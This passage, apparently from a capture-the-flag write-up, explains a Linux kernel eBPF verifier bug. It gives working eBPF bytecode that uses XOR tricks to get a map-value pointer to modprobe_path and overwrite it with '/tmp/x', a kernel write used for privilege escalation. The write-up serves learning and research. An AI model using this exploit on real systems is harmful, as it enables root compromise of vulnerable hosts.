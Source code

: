 ### Rewriting modprobe_path

Then we are going to exploit the bug again to rewrite `modprobe_path` and read the flag. This time, instead of loading address of `modprobe_path` from memory, we apply it directly as constant, so the problem in last step does not exist. Then we can use the `xor` magic again to have a `PTR_TO_MAP_VALUE` register pointing to `&modprobe_path`, so that storing to that register rewrites `modprobe_path`.

The bytecode is shown below:

```c
struct bpf_insn insns2[]={
	BPF_MOV64_IMM(BPF_REG_0, 0),
	BPF_STX_MEM(BPF_W, BPF_REG_10, BPF_REG_0, -4), /* *(u32 *)(fp - 4) = r0 */
	BPF_MOV64_REG(BPF_REG_2, BPF_REG_10),
	BPF_ALU64_IMM(BPF_ADD, BPF_REG_2, -4), /* r2 = fp - 4 */
	BPF_LD_MAP_FD(BPF_REG_1, expmapfd),
	BPF_RAW_INSN(BPF_JMP | BPF_CALL, 0, 0, 0, BPF_FUNC_map_lookup_elem),
	BPF_JMP_IMM(BPF_JEQ, BPF_REG_0, 0, 28+1),

	BPF_MOV64_REG(BPF_REG_3, BPF_REG_0),
	BPF_ALU64_IMM(BPF_XOR, BPF_REG_3, 0), // convert r0, r3 to scalar
	BPF_ALU64_IMM(BPF_XOR, BPF_REG_0, 0),
	BPF_MOV64_IMM(BPF_REG_1, 0),
	BPF_MOV64_IMM(BPF_REG_2, (modprobe >> 0x30) & 0xffff),
	BPF_ALU64_IMM(BPF_LSH, BPF_REG_2, 0x30),
	BPF_ALU64_REG(BPF_OR, BPF_REG_1, BPF_REG_2),
	BPF_MOV64_IMM(BPF_REG_2, (modprobe >> 0x20) & 0xffff),
	BPF_ALU64_IMM(BPF_LSH, BPF_REG_2, 0x20),
	BPF_ALU64_REG(BPF_OR, BPF_REG_1, BPF_REG_2),
	BPF_MOV64_IMM(BPF_REG_2, (modprobe >> 0x10) & 0xffff),
	BPF_ALU64_IMM(BPF_LSH, BPF_REG_2, 0x10),
	BPF_ALU64_REG(BPF_OR, BPF_REG_1, BPF_REG_2),
	BPF_MOV64_IMM(BPF_REG_2, (modprobe) & 0xffff),
	BPF_ALU64_REG(BPF_OR, BPF_REG_1, BPF_REG_2), // r1 = &modprobe
	BPF_ALU64_REG(BPF_XOR, BPF_REG_0, BPF_REG_1), // r0 = src ^ &modprobe
	BPF_ALU64_IMM(BPF_XOR, BPF_REG_0, 0), // convert r0 back to PTR_TO_MAP_VALUE
	BPF_ALU64_REG(BPF_XOR, BPF_REG_3, BPF_REG_0), // r3 = src ^ src ^ &modprobe
	BPF_MOV64_IMM(BPF_REG_4, 0),
	BPF_MOV64_IMM(BPF_REG_2, (tmp_x >> 0x20) & 0xffff),
	BPF_ALU64_IMM(BPF_LSH, BPF_REG_2, 0x20),
	BPF_ALU64_REG(BPF_OR, BPF_REG_4, BPF_REG_2),
	BPF_MOV64_IMM(BPF_REG_2, (tmp_x >> 0x10) & 0xffff),
	BPF_ALU64_IMM(BPF_LSH, BPF_REG_2, 0x10),
	BPF_ALU64_REG(BPF_OR, BPF_REG_4, BPF_REG_2),
	BPF_MOV64_IMM(BPF_REG_2, (tmp_x) & 0xffff),
	BPF_ALU64_REG(BPF_OR, BPF_REG_4, BPF_REG_2), // r4 = /tmp/x
	BPF_STX_MEM(BPF_DW, BPF_REG_3, BPF_REG_4, 0), // rewrite modprobe_path

	BPF_JMP_IMM(BPF_JMP, BPF_REG_0, 0, 1),
	BPF_MOV64_IMM(BPF_REG_0, 0), /* r0 = 0 */
	BPF_EXIT_INSN(),
};
```
